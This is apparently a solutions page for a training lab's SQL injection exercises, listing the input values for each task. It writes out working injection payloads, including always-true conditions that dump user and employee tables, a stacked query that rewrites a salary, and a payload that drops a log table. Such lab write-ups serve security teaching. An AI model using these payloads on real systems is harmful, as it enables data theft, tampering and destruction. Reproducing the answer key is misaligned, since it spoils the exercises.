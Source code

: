 No answer needed.

### Task 8

No answer needed.

### Task 9

Try using the form below to retrieve all the users from the users table. You should not need to know any specific user name to get the complete list.

```sql
SELECT * FROM user_data WHERE first_name = 'Smith' OR '1' = '1'
```

### Task 10

Using the two Input Fields below, try to retrieve all the data from the users table.

```sql
Login_Count: 0
User_Id    : 0 OR 1=1
```

### Task 11

Use the form below and try to retrieve all employee data from the employees table.

```sql
Employee Name     : Bit
Authentication TAN: 0' OR '1'='1
```

### Task 12

Change your own salary so you are earning the most.

```sql
Employee Name     : Smith
Authentication TAN: 3SL99A'; UPDATE employees SET salary='99999999' WHERE userid = '37648
```

### Task 13

Delete the `access_log` table.

```sql
"'; DROP TABLE access_log -- -
```

### Notice

All other tasks of the Injection chapter are not required.
Because of this, solutions will be added later.

# (A2) Broken Authentication
